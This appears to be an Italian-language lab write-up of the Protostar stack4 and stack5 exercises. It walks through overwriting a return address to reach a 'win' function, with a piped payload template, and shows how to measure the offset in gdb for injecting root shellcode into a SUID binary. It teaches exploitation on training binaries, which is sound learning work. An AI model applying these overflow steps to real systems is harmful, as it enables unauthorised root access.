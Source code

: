 Si prende nota dell'inidirizzo e si fa la differenza con il *saved eip* trovato prima. Dovranno essere inserite quindi N char + l'indirizzo della funzione *win* (ricordandosi che si sta lavorando su un'architettura little endian). Si trova l'indirizzo di *win* tramite il seguente comando
```bash
p &win
```

Infine, per provocare l'esecuzione della funzione malevola occorre lanciare l'eseguibile come segue
```bash
echo -ne "a*N+indirizzo_win" | ./stack4
```
Dove **N** e **indirizzo_win** sono i dati che si sono trovati con i passaggi sopra.

### Stack05
Il binario è vulnerabile a buffer overflow. L'obiettivo qui è quello di iniettare codice arbitrario sullo stack detto *shellcode* perchè costituito da istruzioni assembly che permettono di ottenere una shell con i permessi di root (siccome il binario è SUID root). Oltre a iniettare lo shellcode occorre sovrascrivere l'indirizzo di ritorno della funzione *main*.

Occorre prima calcolare il numero di byte di distanza tra l'indirizzo del buffer e l'indirizzo di ritorno, in modo da provocare il corretto buffer overflow. Si apre quindi l'eseguibile con gdb, si eliminano le variabili di ambiente in eccesso e si disassembla il main.

*NB: Le variabili d'ambiente devono essere rimosse in quanto altrimenti l'ambiente di gdb e quello di sh non sarebbero sincronizzati, impedendo di iniettare qualsiasi tipo di indirizzo che punta allo stack (in questo caso, ad esempio, deve essere iniettato l'indirizzo dello shellcode, corrispondente all'indirizzo del buffer). Se non venissero rimosse le variabili d'ambiente i dati sullo stack non sarebbero caricati agli stessi indirizzi in un'esecuzione su gdb e in una su sh.*

```bash
unset env LINES
unset env COLUMNS
disas main
```
Il codice disassemblato è il seguente
```x86asm
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret  
```
In cui:
- **main+6** crea lo stack frame di 0x50 byte
- **main+9** carica in *eax* l'indirizzo puntato da *esp*, con 16 byte di offset
- **main+13** carica *eax* sulla cima dello stack
- **main+16** invoca la *gets*, questo implica che il suo parametro buffer è sullo stack e corrisponde proprio al valore del registro *eax*

Si setta quindi un breakpoint a **main+16** e si esegue il programma, successivamente si estraggono i valori di *eax* e l'indirizzo di memoria del return address.
Per *eax* si esegue:
```bash
info registers
#oppure
x/xw $eax
```
Per sapere l'indirizzo di ritorno:
```bash
info frame #prelevare posizione di eip in memoria
#oppure
p $ebp+4
```
